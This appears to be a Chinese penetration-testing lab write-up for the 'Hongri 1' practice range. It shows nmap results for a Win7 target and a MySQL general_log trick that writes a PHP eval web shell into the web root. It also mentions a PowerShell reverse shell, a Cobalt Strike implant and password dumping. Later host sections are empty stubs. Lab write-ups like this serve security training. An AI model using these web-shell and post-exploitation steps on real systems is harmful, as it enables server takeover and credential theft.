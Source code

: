 ## 红日1
### win7 外网
`192.168.36.135`192.168.36.135
nmap扫端口
```text
Nmap scan report for 192.168.36.135
Host is up (0.00019s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1057/tcp open  startron
3306/tcp open  mysql
```

dirb扫描到phpmyadmin,看到yxcms里有admin的密码,解出来得到`949ba59abbe56e05`

执行sql语句无法直接写入文件,采用日志文件getshell
(1) 开启日志记录:

set global general_log = "ON";
(2) 查看当前的日志目录:

show variables like 'general%';
(3) 指定日志文件

set global general_log_file = "C:/phpStudy/WWW/a.php";
(4)) 写入执行代码：

select "<?php eval($_POST['cmd']); ?>";

成功getshell
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318222743.png)

使用powershell反弹一个shell回来,使用cs生成木马并使用蚁剑上传到靶机上

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318225002.png)
成功上线cs

`logonpasswords`抓取密码

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240319113159.png)

### win2003
使用cs派生一个会话到msf上
1. cs添加一个listener



### win2008


